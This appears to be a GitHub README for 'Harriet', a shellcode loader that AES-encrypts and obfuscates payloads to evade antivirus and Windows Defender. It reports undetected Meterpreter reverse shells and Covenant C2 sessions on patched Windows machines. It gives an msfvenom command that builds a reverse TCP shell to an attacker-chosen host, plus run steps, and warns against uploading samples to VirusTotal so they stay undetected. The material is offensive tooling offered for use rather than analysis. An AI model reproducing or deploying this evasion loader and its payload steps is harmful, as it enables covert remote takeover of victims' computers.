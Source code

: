![Screen Shot 2022-10-02 at 10 29 43 AM](https://user-images.githubusercontent.com/76174163/193459711-647f63a7-b7e6-49b6-9659-f63cebdbeece.png)


**Meet Harriet!**

Harriet was inspired by the Charlotte C++ shellcode loader. This tool uses AES encryption and function/variable obfuscation to get around AV and Windows Defender.

<img width="779" alt="Screen Shot 2022-10-01 at 4 52 22 PM" src="https://user-images.githubusercontent.com/76174163/193458862-256141c2-7696-40aa-a272-c7db0635c453.png">

 At the time of writing, this is only detected by 1 vendor per AntiScan.me and will give you an undetected Meterpreter reverse shell. As we all know, Meterpreter is heavily signatured so you will have to play with the features (getsystem, hashdump,ect) to see what gets caught and what doesn't. I would recommend using my Covenant Randomizer script with this to get an initial access executable and then session pass to MSF, Sliver or another C2 for better OPSEC.

The executables got past Windows Defender on both fully patched Windows 10/11 machines with the meterpreter reverse tcp payload. 

![Screen Shot 2022-10-02 at 1 01 50 PM](https://user-images.githubusercontent.com/76174163/193466612-b08f97cd-83bf-4bdb-905e-8f4ffc1a2e9e.png)

The executable also returned a Covenant grunt without detection. 

![Screen Shot 2022-10-02 at 1 07 57 PM](https://user-images.githubusercontent.com/76174163/193466844-35b0f9b2-50c1-4fb3-aa40-3ce6f32a577e.png)


There is no fancy process injection, it's just a straight AES encrypted executable. I will be working to implement other templates into the script in the future (XOR string encryption, Process Injection, ect).  
 
The majority of this script was taken from the Sektor 7 Malware Development course. All credit goes to reenz0h and @Sektor7net. I wrote this mainly as a way to get a quick undetected executable for testing and to not have to switch over to a Windows VM every five seconds for compiling. 


**Usage:** 

Create Your Payload

**msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=IP lport=PORT -f raw > msfr.bin**

Run the Script

**bash Harriet.sh **

Fill In The Values As Prompted

**Enjoy and DON'T UPLOAD TO Virus Total!!!!!**
